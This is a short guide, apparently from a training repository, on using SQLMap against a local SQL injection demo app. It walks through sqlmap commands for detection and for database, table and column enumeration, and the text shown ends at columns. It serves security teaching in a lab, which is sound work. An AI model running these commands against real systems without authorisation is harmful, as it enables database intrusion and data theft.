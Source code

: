 # SQLMap Guide for SQL Injection Testing

This guide provides detailed instructions on how to use SQLMap to automatically detect and exploit SQL injection vulnerabilities in the demo application.

## Prerequisites

1. SQLMap installed (can be installed via `pip install sqlmap` or downloaded from [sqlmap.org](http://sqlmap.org/))
2. The SQL injection demo application running on localhost:5000
3. Basic understanding of SQL injection concepts

## Basic SQLMap Usage

### 1. Detecting SQL Injection

Start with a basic detection scan to confirm if the endpoint is vulnerable:

```bash
sqlmap -u "http://localhost:5000/user?id=1" --batch
```

Parameters explained:
- `-u`: Target URL with the parameter to test
- `--batch`: Non-interactive mode, automatically answers all questions with default values

### 2. Database Enumeration

Once vulnerability is confirmed, enumerate available databases:

```bash
sqlmap -u "http://localhost:5000/user?id=1" --dbs --batch
```

Parameters explained:
- `--dbs`: Lists all available databases

### 3. Table Enumeration

Enumerate tables in the target database:

```bash
sqlmap -u "http://localhost:5000/user?id=1" -D demo_sqli --tables --batch
```

Parameters explained:
- `-D demo_sqli`: Specifies the target database
- `--tables`: Lists all tables in the specified database

### 4. Column Enumeration

List columns in a specific table:

```bash
sqlmap -u "http://localhost:5000/user?id=1" -D demo_sqli -T users --columns --batch
```
